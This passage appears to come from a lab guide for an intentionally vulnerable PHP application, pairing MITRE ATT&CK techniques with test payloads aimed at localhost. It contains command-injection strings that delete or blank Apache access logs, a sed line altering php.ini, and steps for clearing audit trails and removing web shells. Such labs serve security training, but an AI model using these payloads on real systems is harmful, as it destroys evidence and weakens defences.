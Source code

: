 **Description**: Delete files to remove evidence.

**Vulnerable Component**: Command injection allows file deletion

**Attack Vector**:
```bash
http://localhost:8080/settings.php?ping=localhost;rm+/var/log/apache2/access.log
```

**Testing Steps**:
1. Execute commands via command injection
2. Delete log files
3. Remove uploaded web shells
4. Clear audit trails

---

#### T1562.001: Impair Defenses - Disable or Modify Tools

**Description**: Prevent security tools from operating.

**Vulnerable Component**: Command execution + elevated privileges

**Attack Vector**:
```bash
# Disable logging
;echo '' > /var/log/apache2/access.log

# Modify security configs
;sed -i 's/display_errors = Off/display_errors = On/' /usr/local/etc/php/php.ini
```

**Testing Steps**:
1. Use command injection
2. Modify security configurations
3. Disable logging mechanisms

---

#### T1140: Deobfuscate/Decode Files or Information

**Description**: Reverse obfuscation to reveal payload.

**Vulnerable Component**: File viewer can read encoded files

**Attack Vector**:
```
http://localhost:8080/settings.php?file=.env.example
```

**Testing Steps**:
1. Upload base64-encoded payload
2. Use file viewer to read and decode
3. Execute decoded content

---

### 6. Credential Access
